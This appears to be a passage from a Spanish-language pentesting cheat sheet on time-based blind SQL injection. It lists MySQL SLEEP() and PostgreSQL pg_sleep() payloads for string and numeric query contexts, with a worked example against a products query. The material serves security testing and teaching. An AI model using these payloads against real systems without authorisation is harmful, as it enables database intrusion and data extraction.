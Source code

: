```sql
' OR (SELECT SLEEP(10))-- -
```

**Nota sobre comentarios en MySQL:** el estilo `--` requiere un espacio después de los guiones (`--` ). También podemos usar `#` para comentar hasta el fin de línea.

### Contexto: numérico

```sql
1 AND (SELECT SLEEP(10))
```

o, cuando no podemos introducir subselects fácilmente:

```sql
1 OR SLEEP(10) -- (solo en algunos contextos donde la función puede evaluarse directamente)
```

### Ejemplo práctico

Si tenemos un parámetro `q` dentro de una consulta como:

```sql
SELECT * FROM products WHERE name = '<INPUT>';
```

una payload para comprobar time‑based podría ser:

```
' AND (SELECT SLEEP(10))-- -
```

---

## PostgreSQL — ejemplos y variantes

### Forma habitual

- `pg_sleep(10)` — pausa en segundos.
    

### Contexto: dentro de comillas (cadena)

En PostgreSQL a menudo veremos concatenaciones con `||`. Una inyección típica cuando el parámetro se concatena a una cadena sería:

```sql
' || (SELECT pg_sleep(10)) || ' --
```

```SQL
'|| pg_sleep(10)-- -
```

O cerrando la comilla y ejecutando la llamada:

```sql
'; SELECT pg_sleep(10); --
```
